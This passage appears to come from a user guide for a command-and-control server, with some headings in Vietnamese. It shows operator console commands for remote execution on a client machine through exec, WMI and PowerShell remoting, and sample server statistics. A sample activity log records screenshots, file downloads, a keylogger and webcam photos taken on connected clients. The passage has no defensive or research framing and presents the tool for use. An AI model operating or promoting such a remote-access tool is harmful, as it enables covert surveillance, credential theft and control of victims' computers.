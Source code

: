 #### Remote Execution
```
# Execute on remote machine
C2C> exec 192.168.1.50 "whoami"

# WMI execution
C2C> wmi 192.168.1.50 "notepad.exe"

# PowerShell remoting
C2C> ps-remote 192.168.1.50 "Get-Process"
```

---

## 5. Monitoring và Báo Cáo

### 📊 Real-time Statistics

#### Server Statistics
```
C2C> stats

📊 C2C Server Statistics
========================
Server Status: ✅ Running (4h 32m)
- Host: 0.0.0.0:4444 (SSL Enabled)
- Active Connections: 15/500
- Total Sessions: 47
- Commands Processed: 1,247
- Data Transferred: 15.7 GB
  ↓ Downloaded: 12.3 GB
  ↑ Uploaded: 3.4 GB

Performance Metrics:
- CPU Usage: 12%
- Memory Usage: 256 MB
- Network I/O: 45 Mbps
- Success Rate: 98.7%
- Average Response Time: 1.2s

Security Status:
- SSL/TLS: ✅ Active
- Failed Authentications: 3
- Blocked IPs: 0
- Rate Limit Violations: 12
```

#### Client Activity
```
C2C> activity

📈 Recent Activity (Last 1 Hour)
================================
10:32:15 │ Client 3 │ Screenshot captured
10:31:45 │ Client 1 │ File downloaded: document.pdf
10:30:22 │ Client 5 │ New connection established
10:28:17 │ Client 2 │ Keylogger started
10:25:33 │ Client 1 │ Command executed: sysinfo
10:22:41 │ Client 4 │ Webcam photo taken
10:20:15 │ Client 3 │ Network scan completed
```
